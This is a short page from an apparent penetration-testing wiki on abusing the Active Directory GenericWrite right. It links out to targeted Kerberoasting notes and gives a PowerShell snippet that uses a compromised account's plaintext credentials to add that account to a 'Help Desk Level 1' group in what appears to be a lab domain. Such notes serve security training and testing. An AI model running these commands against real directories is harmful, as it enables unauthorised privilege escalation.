

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# GenericWrite

## Information

<table><thead><tr><th width="151">Right</th><th width="116">Value</th><th>Description</th></tr></thead><tbody><tr><td>GenericWrite</td><td>131112</td><td>The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object.</td></tr></tbody></table>

## Exploitation

### Over a User

#### Targeted Kerberoasting

Check [here](genericall.md#targeted-kerberoasting).

#### Targeted ASREPRoasting

Check [here](genericall.md#targeted-asreproasting).

### Over a Group

#### Adding Group Member

<figure><figcaption><p>Figure 1: GenericWrite of a user over a group.</p></figcaption></figure>


```powershell
# creating a SecureString Object for the owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

# add the compromised user to the group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred -Verbose 

# confirm that damundsen was added to the group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```


## Resources






